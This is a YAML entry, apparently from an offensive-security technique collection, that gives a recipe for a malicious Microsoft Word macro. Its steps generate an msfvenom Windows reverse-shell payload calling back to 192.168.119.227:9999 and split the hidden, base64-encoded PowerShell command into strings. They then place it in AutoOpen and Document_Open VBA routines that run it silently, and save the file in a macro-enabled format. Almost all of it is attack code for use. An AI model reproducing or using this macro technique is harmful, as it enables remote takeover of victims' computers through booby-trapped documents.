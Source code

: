 ```yaml
---
functions:
  gain-access:
    - description: Embed a Macro into a MS WOrd Document
      code: |
        (1) Generate msfvenom code:
            msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.227 LPORT=9999 -f hta-psh

        (2) python3 splitstr.py 50 (link below)

        (3) Copy and paste “powershell.exe -nop -w hidden -e aQBmACgAWwBJ ...” into the splitstr prompt   - MIND THE QUOTES!

        (4) cp/paste as the Str variable in the MyMacro Sub below


        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            Str = ""
            Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
            Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
            Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
            Str = Str + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
            ...
            ...
            Str = Str + "GkAbgBkAG8AdwA9ACQAdAByAHUAZQA7ACQAcAA9AFsAUwB5AHM"
            Str = Str + "AdABlAG0ALgBEAGkAYQBnAG4AbwBzAHQAaQBjAHMALgBQAHIAb"
            Str = Str + "wBjAGUAcwBzAF0AOgA6AFMAdABhAHIAdAAoACQAcwApADsA"

            Set objShell = CreateObject("WScript.Shell")
            objShell.Run Str, 0, True
            

            End Sub

            NOTE: You must save the containing document as either .docm or the older .doc format, which supports embedded macros, but must avoid the .docx format, which does not support them.

resources : |
  https://github.com/unkn0wnsyst3m/scripts/blob/master/splitstr.py
---
```



